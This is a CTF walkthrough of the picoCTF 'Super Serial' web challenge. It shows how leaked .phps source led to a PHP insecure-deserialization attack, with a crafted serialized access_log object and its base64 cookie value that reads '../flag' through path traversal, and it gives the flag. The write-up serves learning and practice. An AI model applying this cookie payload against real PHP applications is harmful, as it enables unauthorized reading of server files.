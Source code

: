 # Super Serial  →  130 Pts.

## Me and 0xManan did this challenge together and hell yeah it was worth it.

1. We land on login page.
2. Serch for _robots.txt_
3. Found _admin.phps_
4. Opened admin.phps but it says not found.
5. So tried appending phps in index also. and viewed source page.
6. Got the source code with a php code.

``` php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
$con = new SQLite3("../users.db");
$username = $_POST["user"];
$password = $_POST["pass"];
$perm_res = new permissions($username, $password);
if ($perm_res->is_guest() || $perm_res->is_admin()) {
setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
header("Location: authentication.php");
die();
} else {
$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
}
}
?>
```

1. Found the _authentication.php_ file so tried getting in it but it says Forbidden (not allowed)

2. So tried _authentication.phps_ and got a source code

```php
<?php

function __construct($lf) {
	$this->log_file = $lf;
}

function __toString() {
	return $this->read_log();
}

function append_to_log($data) {
	file_put_contents($this->log_file, $data, FILE_APPEND);
}

function read_log() {
	return file_get_contents($this->log_file);
}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
$msg = "Welcome admin";
$log = new access_log("access.log");
$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
$msg = "Welcome guest";
}
?>
```

1. So i saw that in second line we have _cookie.php_

2. Opened it and found 1 so i tried _cookie.phps_ to get the source code and it reverted back.

``` php
if(isset($_COOKIE["login"])){
try{
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
$g = $perm->is_guest();
$a = $perm->is_admin();
}
catch(Error $e){
die("Deserialization error. ".$perm);
}
}

?>
```

1. What really caught my eye was the last part where we have a serialization info of cookie. The cookie value is URL Encoded -> Base64 Encoded -> Serialized.

2. I pasted the part of _authentication.php_ on online php editor

_script.php_

```php

<?php
class access_log
{
public $log_file;
function __construct($lf) {
	$this->log_file = $lf;
}

function __toString() {
	return $this->read_log();
}

function append_to_log($data) {
	file_put_contents($this->log_file, $data, FILE_APPEND);
}

function read_log() {
	return file_get_contents($this->log_file);
}
}

echo(serialize(new access_log("../flag")));
?>
```

1. Last line was added by me because we need a serialized value of the access.log but don't have permission to overwrite it so created a new access.log and then as per hint traversing the ../flag

2. Got the output:

`
💡 O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
`


1. Decoded to Base64 and got

_TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9_

2. Tried going to index.php and created a new cookie named "login" and value =TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9 path=/authentication.php

3. Refreshed the page and then the deserialization error got me the flag

`
💡 picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_c5123066}
`

##  MADSTACK's MADNESS HAS OFFICIALLY BEGUN NOW!!!
